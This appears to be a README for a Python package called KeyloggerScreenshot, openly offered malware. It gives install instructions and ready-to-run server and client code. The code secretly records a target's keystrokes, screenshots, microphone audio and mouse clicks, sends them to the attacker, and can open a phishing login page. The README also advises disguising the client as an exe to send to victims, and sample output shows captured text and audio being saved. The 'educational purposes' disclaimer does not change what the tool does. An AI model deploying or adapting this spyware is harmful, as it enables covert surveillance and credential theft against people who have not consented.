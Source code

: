 KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. You can open a link when the keylogger is executed. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my github (easier way): https://github.com/Kill0geR/KeyloggerScreenshot

GITHUB-VERSION (SNEAK PEAK):
----------------------------
![kali_img](https://user-images.githubusercontent.com/106278241/206914635-c9d5e505-9499-4dce-91ed-5254f495929d.png)


SHOUT OUT TO:
-------------
NAME: dyma020

Link to his insta: https://www.instagram.com/dyma020/

He had the idea of the mouse information. He also build the graphical user interface. Big thanks to him

HOW DOES KeyloggerScreenshot WORK?
-----------------------------------
To install KeyloggerScreenshot simply write:

`pip install KeyloggerScreenshot`

in your terminal

After that create a server:

Server
------ 
```python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1"

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()
```

Client
------

```python
#client_target.py
import KeyloggerScreenshot as ks

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60, phishing_web="https://www.instagram.com/accounts/login/?__coig_restricted=1") # You can open a link when the keylogger starts
key_client.start()
```
You can specify the time of running in seconds in the "duration_in_seconds" variable


Essential Informations:
------------------------
* This module can be used in Windows and Linux

* The servers can now be run in the same file with the module threading

* The port number for each server should be different

* The server should obviously be run before the client

* You can just copy the following code and insert you ip-address in the variable "ip"

* You can find your ip-address in the command line by using the command "ipconfig"

* If you want a cool simulation you can specify that in ServerKeylogger by setting the Parameter simulater to True

* You can open a link that you can choose when the keylogger is executed. Set the Parameter "phishing_web" to your link

* If you really want to send this to work externally, you have to buy a server and download the code on my github.

* If backspace is pressed the last pressed character will be deleted from the list

Output
-------
```    __ __              __                                 _____                                       __            __ 
   / //_/___   __  __ / /____   ____ _ ____ _ ___   _____/ ___/ _____ _____ ___   ___   ____   _____ / /_   ____   / /_
  / ,<  / _ \ / / / // // __ \ / __ `// __ `// _ \ / ___/\__ \ / ___// ___// _ \ / _ \ / __ \ / ___// __ \ / __ \ / __/
 / /| |/  __// /_/ // // /_/ // /_/ // /_/ //  __// /   ___/ // /__ / /   /  __//  __// / / /(__  )/ / / // /_/ // /_  
/_/ |_|\___/ \__, //_/ \____/ \__, / \__, / \___//_/   /____/ \___//_/    \___/ \___//_/ /_//____//_/ /_/ \____/ \__/  
            /____/           /____/ /____/    

                        ~Created by: Fawaz Bashiru~          
                        ~Write "python KLS_start.py -help" for help in the github version~   
                        REMINDER THIS WAS BUILD FOR EDUCATIONAL PURPOSES  
                        SO DON'T USE THIS FOR EVIL ACTIVITIES !!!!!                        
        
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer

Waiting for connection...
Waiting for connection...
Waiting for connection....
Connection has been established with ('127.0.0.1', 49162)
The target is being connected. The Data of the target is coming....
Time left: 00:01
Successful connection for 1 minutes


Connection has been established with ('127.0.0.1', 49199)

Connection has been established with ('127.0.0.1', 49198)
The coordinates of the target have been saved to your directory
True
Text of target: Hello and welcome to KeyloggerScreenshot. I hope you like it and please remember do not use this for evil activities [TAB] 
"Audio of Target.wav" has been saved to your directory
Simulation will come in 10 seconds!!!
3 Images has been saved to your working directory
Waiting for connection...
Do you want to start y/n?: y

The target has clicked 1 times on his screen
This simulation will last for 0 minutes and 27 seconds

Time left: 00:01
THANK YOU FOR YOU USING KEYLOGGERSCREENSHOT
ERFOLGREICH: Der Prozess mit PID 7768 wurde beendet.
```


Directory of Attacker
---------------------
![endresult](https://user-images.githubusercontent.com/106278241/210905855-35bc8cc1-435e-4dc6-bae7-62fcdedd1484.png)

Additional
==========
* You can send "target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The client should be a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.

* Simulation_code.py wont work properly on Virtual Machine

* Server will shutdown automatically after everything has been sent to the server.

